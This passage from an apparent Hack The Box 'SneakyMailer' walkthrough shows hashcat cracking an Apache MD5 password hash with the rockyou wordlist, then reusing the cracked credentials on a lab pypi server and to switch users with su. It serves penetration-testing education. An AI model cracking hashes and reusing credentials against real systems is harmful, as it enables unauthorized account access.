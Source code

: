 ```text
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
Time.Started.....: Wed Nov 11 15:52:56 2020 (2 mins, 18 secs)
Time.Estimated...: Wed Nov 11 15:55:14 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    25994 H/s (9.47ms) @ Accel:64 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3614208/14344385 (25.20%)
Rejected.........: 0/3614208 (0.00%)
Restore.Point....: 3613952/14344385 (25.19%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: souhern4u -> soucia

Started: Wed Nov 11 15:52:45 2020
Stopped: Wed Nov 11 15:55:16 2020
```

The password enabled me to log in to `http://pypi.sneakycorp.htb:8080/` with the creds `pypi:soufianeelhaoui`

![](../../.gitbook/assets/8-pypi-loggged-in%20%281%29%20%281%29.png)

![](../../.gitbook/assets/8-pypi-loggged-in2%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%281%29.png)

There was nothing interesting on either of the sites linked on this page however. 

```text
www-data@sneakymailer:~/pypkg$ su developer
Password: 
developer@sneakymailer:/dev/shm/pypkg$ id
uid=1001(developer) gid=1001(developer) groups=1001(developer)
```
